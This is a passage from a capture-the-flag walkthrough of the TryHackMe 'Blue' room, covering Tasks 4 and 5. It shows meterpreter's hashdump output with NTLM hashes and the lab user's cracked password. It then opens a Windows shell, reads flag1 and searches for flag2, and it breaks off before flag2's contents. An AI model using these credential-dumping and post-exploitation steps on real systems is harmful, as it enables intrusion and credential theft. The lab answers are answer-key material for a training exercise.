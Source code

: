 ## [Task 4] Cracking

Dump the non-default user's password and crack it!

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

`jon`

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

`alqfna22`

## [Task 5] Find flags!

Find the three flags planted on this machine.

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

1. Flag1? (Only submit the flag contents {CONTENTS})

```
meterpreter > shell
Process 1888 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>
```

```
C:\Windows\system32>type C:\flag1.txt
type C:\flag1.txt
flag{access_the_machine}
```

`access_the_machine`

2. Flag2? *Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

```
C:\Windows\system32>dir *flag*.txt /s
dir *flag*.txt /s
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\system32\config

03/17/2019  02:32 PM                34 flag2.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)  20,438,118,400 bytes free

C:\Windows\system32>type config\flag2.txt
type config\flag2.txt
```